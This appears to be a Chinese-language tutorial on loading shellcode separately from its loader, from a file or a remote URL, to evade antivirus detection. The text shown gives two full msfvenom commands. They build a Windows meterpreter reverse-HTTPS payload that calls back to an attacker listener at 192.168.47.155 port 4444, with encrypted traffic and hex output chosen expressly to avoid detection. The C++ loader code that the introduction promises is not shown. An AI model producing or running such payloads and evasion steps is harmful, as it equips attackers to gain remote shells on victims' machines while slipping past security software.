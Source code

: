 # 简介

本文详细介绍了如何通过文件加载和远程URL加载方式实现Shellcode分离加载，以规避安全软件的检测。文章首先描述了通过Metasploit Framework生成的shellcode文件加载的过程，并提供了相关的C++代码。

为了避免被杀毒软件检测，利用动态API调用和lazy_importer项目进行代码优化。其次，文章讨论了如何通过远程URL加载shellcode，也提供了相应的实现代码。整篇文章旨在帮助读者理解shellcode分离加载的具体实现过程和原理，同时通过实践操作增强对这一技术的掌握程度


<br>

# 一、通过文件加载

## msf生成shellcode文件

使用`msfvenom`生成raw格式的文本文件, 但是raw格式的文本文件很容易就会被杀软查杀，为了防止通讯特征被检测到，此处我还做了msf流量加密，此处若想了解msf流量加密的朋友可以去看这篇文章：[MSF流量加密](https://blog.csdn.net/xf555er/article/details/128051211?ops_request_misc=&request_id=&biz_id=&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~koosearch~default-1-128051211-null-null.268^v1^koosearch&utm_term=%E6%B5%81%E9%87%8F&spm=1018.2226.3001.4450)

```
msfvenom -p windows/x64/meterpreter_reverse_https lhost=192.168.47.155 lport=4444 PayloadUUIDTracking=true HandlerSSLCert=ssl.pem PayloadUUIDName=henry -f raw -o shellcode_raw.txt
```

![image-20230522202357728](README/image-20230522202357728.png)


<br>

为了不被杀软查杀，并将其保存为十六进制格式

```
msfvenom -p windows/x64/meterpreter_reverse_https lhost=192.168.47.155 lport=4444 PayloadUUIDTracking=true HandlerSSLCert=ssl.pem PayloadUUIDName=henry -f hex -o shellcode_hex.txt
```
